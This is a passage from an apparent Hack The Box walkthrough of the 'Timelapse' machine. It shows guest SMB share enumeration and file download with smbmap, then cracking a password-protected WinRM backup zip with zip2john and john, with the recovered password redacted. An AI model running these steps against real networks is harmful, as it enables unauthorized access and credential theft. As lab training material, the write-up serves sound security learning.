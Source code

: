 ```shell
	fr--r--r--           641378 Mon Oct 25 23:55:14 2021	LAPS_OperationsGuide.docx
	fr--r--r--            72683 Mon Oct 25 23:55:14 2021	LAPS_TechnicalSpecification.docx
```

Hmm... What's that `winrm_backup.zip` in `Dev` directory?

**Let's download all of the files:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|15:38:22(HKT)]
└> mkdir smb_findings; cd smb_findings
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:42:05(HKT)]
└> smbmap -H $RHOSTS -u 'Guest' -p '' -R 'Shares' -A '.*'
[+] IP: 10.10.11.152:445	Name: timelapse.htb                                     
[+] Starting search for files matching '.*' on share Shares.
[+] Match found! Downloading: Shares\Dev\winrm_backup.zip
[+] Match found! Downloading: Shares\HelpDesk\LAPS.x64.msi
[+] Match found! Downloading: Shares\HelpDesk\LAPS_Datasheet.docx
[+] Match found! Downloading: Shares\HelpDesk\LAPS_OperationsGuide.docx
[+] Match found! Downloading: Shares\HelpDesk\LAPS_TechnicalSpecification.docx
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:42:34(HKT)]
└> file *     
10.10.11.152-Shares_Dev_winrm_backup.zip:                      Zip archive data, at least v2.0 to extract, compression method=deflate
10.10.11.152-Shares_HelpDesk_LAPS_Datasheet.docx:              Microsoft Word 2007+
10.10.11.152-Shares_HelpDesk_LAPS_OperationsGuide.docx:        Microsoft Word 2007+
10.10.11.152-Shares_HelpDesk_LAPS_TechnicalSpecification.docx: Microsoft Word 2007+
10.10.11.152-Shares_HelpDesk_LAPS.x64.msi:                     Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, MSI Installer, Code page: 1252, Title: Installation Database, Subject: Local Administrator Password Solution, Author: Microsoft Corporation, Keywords: Installer, Comments: Version: 6.2.0.0, Template: x64;1033, Revision Number: {7E1C3ED1-C10E-4A84-AE14-E165EF9C0C8F}, Create Time/Date: Wed May  5 15:54:22 2021, Last Saved Time/Date: Wed May  5 15:54:22 2021, Number of Pages: 500, Number of Words: 2, Name of Creating Application: Windows Installer XML Toolset (3.14.0.4118), Security: 2
```

In here, we downloaded a few files, those Word documents and the `zip` file looks interesting.

**Let's unzip `winrm_backup.zip` first:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:46:55(HKT)]
└> unzip 10.10.11.152-Shares_Dev_winrm_backup.zip 
Archive:  10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

It requires password... 

**We can crack it via `zip2john` and `john`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:47:35(HKT)]
└> zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > winrm_backup.zip.hash
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:47:45(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup.zip.hash 
[...]
{Redacted}    (10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx)     
[...]
```
